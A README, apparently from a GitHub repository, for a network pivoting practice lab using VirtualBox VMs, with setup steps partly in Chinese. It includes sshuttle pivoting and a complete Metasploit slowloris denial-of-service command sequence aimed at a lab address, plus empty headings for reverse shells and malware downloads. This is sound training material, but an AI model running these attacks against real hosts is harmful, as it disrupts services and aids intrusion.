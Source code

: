 # NM-Lab-Network-pivoting

This is a Lab for practicing network pivoting.

## Prerequisite

### Network architecture

The following is our network settings for doing this Lab.

Local (Attacker)  
OS : MacOS or Kali Linux  
IP : 192.168.2.105 (For example)(Connect with Internet)  

VirtualBox VM1 (SSH Server)  
OS : Ubuntu server 20.04  
(Adapter1 橋接網路卡Bridge enp0s3) IP : 192.168.2.113 (For example)  
(Adapter2 內網Internal enp0s8) IP : 192.168.1.1 (For example)  

VirtualBox VM2 (Target machine)  
OS : Ubuntu server 20.04.2 or Kali Linux  
(Adapter2 內網 enp0s8) 192.168.1.100 (For example)    

VirtualBox VM3 (option)  
OS : Metasploitable2 (For running DVWA)  
(You can also install DVWA on the target machine, but it is quite a long process for installing DVWA alone.)  
(I personally take this as my guideline to install DVWA https://medium.datadriveninvestor.com/setup-install-dvwa-into-your-linux-distribution-d76dc3b80357)  

Step 0 :  
下載然後導入ubuntu server到VirtualBox  
https://ubuntu.com/download/server  

Step 1 :  
完成VirtualBox的網路介面卡設定  
確認連接內網的網路卡擁有相同的名稱  

Step 2 :  
登陸兩(三)台要連接內網的VM之後，使用  
$ ifconfig -a  
確認內網網路卡的名稱 (In our case, enp0s8)  
然後使用指令  
$ sudo ifconfig enp0s8 192.168.1.1 netmask 255.255.255.0 up  
開啟網路卡  
192.168.1.1 可以自己設定 (不同的機器要不同 192.168.1.1 192.168.1.100 in our case)  
不過注意每一次開機都要設定  

這樣即完成網路設定  
可以用ping或ifconfig指令確認  

### Enviroment & Installation

Local (Attacker)  

Ssuttle (For pivoting)  
https://github.com/sshuttle/sshuttle  
Nmap (For scanning)(option)  
https://nmap.org/book/inst-macosx.html  
Metasploit (For using slowloris DOS attack exploit module)  
https://www.metasploit.com    

VirtualBox VM1 (SSH Server)  

ssh service need to be enable  
http service (Apache web service) need to be enable  
root account for sshuttle  
normal user account for port forwarding  

VirtualBox VM2 (Target machine)  

ssh service need to be enable  
http service (Apache web service) need to be enable  

## Ways of Pivoting

### sshuttle

Open terminal  
$ sshuttle -r user@192.168.2.113 192.168.1.0/24  
Need root privilege for both local and the ssh server  

### dynamic port forwarding


### reverse remote port forwarding


## Ways of Attack

### DOS

Open terminal  
Run metasploitable  
Somewhere in the /opt/metasploit-framework/bin/ if you are using MacOS (High Sierra) like me  
$ ./msfconsole  
(Some configurations if first time use)  
msf6 > search slowloris  
msf6 > use auxiliary/dos/http/slowloris  
msf6 auxiliary(dos/http/slowloris) > options  
msf6 auxiliary(dos/http/slowloris) > set sockets 200 (the number doesn't really matter)  
msf6 auxiliary(dos/http/slowloris) > set rhost 192.168.1.100  
msf6 auxiliary(dos/http/slowloris) > run  

Now you should see it working !!!  

### reverse shell


### downloading other malwares
